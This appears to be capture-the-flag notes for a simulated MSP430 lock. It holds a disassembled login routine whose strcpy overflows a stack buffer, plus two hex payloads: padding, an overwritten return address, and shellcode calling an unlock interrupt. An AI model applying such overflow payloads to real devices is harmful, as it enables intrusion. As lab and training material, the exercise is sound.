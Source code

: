 123456789qwertyuFDasdfghjklzxcvbnm123456789qwe

dec 1010, r15
add 1012, r15
9083 010000001f500000
SPAM                	                RET			           			  		     SHELLCODE
4141 4141 4141 4141 4141 4141 4141 4141 1044 4141 4141 4141 4141 4141 4141 4141 4141 2153 2153 2153 2153 2153 2153 2153 2153 2153 2153 2153 b012 3245 7f00

SPAM CALL INT  SPAM                     RET  NEW_STACK_FOR_INT
4141 b012 4c45 4141 4141 4141 4141 4141 f043 7f00

44f4 <login>
44f4:  3150 f0ff      add	#0xfff0, sp
44f8:  3f40 7044      mov	#0x4470 "Enter the password to continue.", r15
44fc:  b012 b045      call	#0x45b0 <puts>
4500:  3f40 9044      mov	#0x4490 "Remember: passwords are between 8 and 16 characters.", r15
4504:  b012 b045      call	#0x45b0 <puts>
4508:  3e40 3000      mov	#0x30, r14
450c:  3f40 0024      mov	#0x2400, r15
4510:  b012 a045      call	#0x45a0 <getsn> // Read 0x30 (48) bytes into the stack
4514:  3e40 0024      mov	#0x2400, r14
4518:  0f41           mov	sp, r15
451a:  b012 dc45      call	#0x45dc <strcpy> // strcpy to the stack
451e:  3d40 6400      mov	#0x64, r13
4522:  0e43           clr	r14
4524:  3f40 0024      mov	#0x2400, r15
4528:  b012 f045      call	#0x45f0 <memset> // copy 0 from 0x2400 to 0x2464
452c:  0f41           mov	sp, r15
452e:  b012 4644      call	#0x4446 <conditional_unlock_door>
4532:  0f93           tst	r15
4534:  0324           jz	$+0x8 <login+0x48>
4536:  3f40 c544      mov	#0x44c5 "Access granted.", r15
453a:  023c           jmp	$+0x6 <login+0x4c>
453c:  3f40 d544      mov	#0x44d5 "That password is not correct.", r15
4540:  b012 b045      call	#0x45b0 <puts>
4544:  3150 1000      add	#0x10, sp
4548:  3041           ret